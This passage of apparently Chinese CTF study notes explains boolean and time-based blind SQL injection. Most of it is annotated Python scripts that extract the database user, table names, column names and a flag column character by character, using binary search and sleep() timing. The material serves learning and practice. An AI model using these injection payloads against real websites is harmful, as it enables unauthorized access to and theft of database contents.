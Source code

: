 ```python
        payload = f'2-if(ascii(substr((select group_concat(f1ag_column) from f1ag), {i}, 1))<={mid}, 1, 0)'
        """
        上面这行代码是关键，构造出来了执行命令的SQL语句，其中：
        利用二分法的关键是，如果此时的这个字符的ascii码小于等于mid，那么就会返回1，否则返回0
        """
        res = requests.get(url, params={
            'id': payload
        })
        #判断回显信息，输出这个字符结果，每道题的回显信息不同！
        if "id = 1" in res.text: # “id=1”是这个题的特点回显，如果成立就会出现id=1，不成立就不会出现
            r = mid
        else:
            l = mid+1
    flag += chr(l)
    print(flag)
```

对这个小模版进行了注释，帮助我更好地理解二分法在盲注脚本中的应用，可以加快速度和效率

仔细分析一下，与联合注入相比爆表的流程还是一样的，只是我们得到回显信息不同



### 时间盲注

使用于网站没有任何特别回显的时候

```python
#时间盲注，二分法
import requests
url = '' #url
flag = ''


for i in range(1, 50):
    l,r = 32, 127
    while l < r:
        mid = (l+r) // 2
        # where id = 1
        # 爆用户名
        # payload = f'2-if(ascii(substr((select user()), {i}, 1))<={mid}, 1, 0)'

        # 爆表名
        # payload = f'2-if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()), {i}, 1))<={mid}, 1, 0)'
        
        # 爆列名
        # payload = f'2-if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name=\'f1ag_table\'), {i}, 1))<={mid}, 1, 0)'
        
        #爆最后的flag
        payload = f'2-if(ascii(substr((select group_concat(flag) from flag_table), {i}, 1))<={mid}, sleep(1), 0)'
        res = requests.get(url, params={
            'id': payload
        })
        
        if res.elapsed.total_seconds() > 1.: 
            #网络请求的耗时大于1秒
            r = mid
        else:
            l = mid+1
    flag += chr(l)
    print(flag)
```